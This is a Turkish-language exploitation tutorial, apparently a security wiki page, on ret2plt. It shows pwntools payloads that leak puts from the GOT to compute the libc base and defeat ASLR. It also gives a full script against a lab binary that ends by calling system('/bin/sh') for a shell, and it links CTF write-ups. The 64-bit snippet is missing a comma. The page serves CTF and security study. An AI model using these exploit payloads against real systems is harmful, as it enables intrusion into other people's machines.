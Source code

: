 # Ret2plt

## Temel Bilgiler

Bu teknikteki amaç, ASLR'yi atlamak için PLT'den bir işlevin adresini sızdırmaktır. Bu, örneğin, libc'ten `puts` işlevinin adresini sızdırırsanız, ardından `libc`'nin tabanını hesaplayabilir ve diğer işlevlere erişmek için ofsetleri hesaplayabilirsiniz, örneğin `system`.

Bu, `pwntools` yüküyle şu şekilde yapılabilir ([**buradan**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
**`puts`** fonksiyonunun (PLT'den adresi kullanarak) `puts`'un GOT'ta (Global Offset Table) bulunan adresi ile çağrıldığını göz önünde bulundurun. Bu, `puts` GOT girdisini yazdırdığında, bu girişin bellekteki `puts` adresini tam olarak içereceği için geçerlidir.

Ayrıca, sömürüde `main` adresinin nasıl kullanıldığına dikkat edin, böylece `puts` işlemini bitirdiğinde, **binary çıkış yapmak yerine tekrar `main`'i çağırır** (bu nedenle sızdırılan adres geçerli olmaya devam eder).

{% hint style="danger" %}
Bu işin çalışması için, **binary'nin PIE ile derlenmemiş olması** veya PLT, GOT ve main adreslerini bilmek için **PIE'yi atlamak için bir sızıntı bulmuş olmanız** gerekir. Aksi takdirde, önce PIE'yi atlamalısınız.
{% endhint %}

Bu atlamayı [**burada tam bir örnekte bulabilirsiniz**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). Bu, o **örneğin** son sömürüsüydü:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## Diğer örnekler ve Referanslar

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bit, ASLR etkin ancak PIE yok, ilk adım canary'nin 0x00 byte'ına kadar taşma doldurmak ve ardından puts'u çağırarak sızdırmaktır. Canary ile puts'u çağırmak için ROP cihazı oluşturulur ve GOT'tan puts adresini sızdırmak için bir ROP cihazı ve `system('/bin/sh')` çağırmak için bir ROP cihazı kullanılır.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bit, ASLR etkin, canary yok, ana fonksiyondan bir çocuk fonksiyonundan yığın taşması. Puts'u çağırmak için ROP cihazı kullanarak GOT'tan puts adresini sızdırmak ve ardından bir tek cihazı çağırmak.
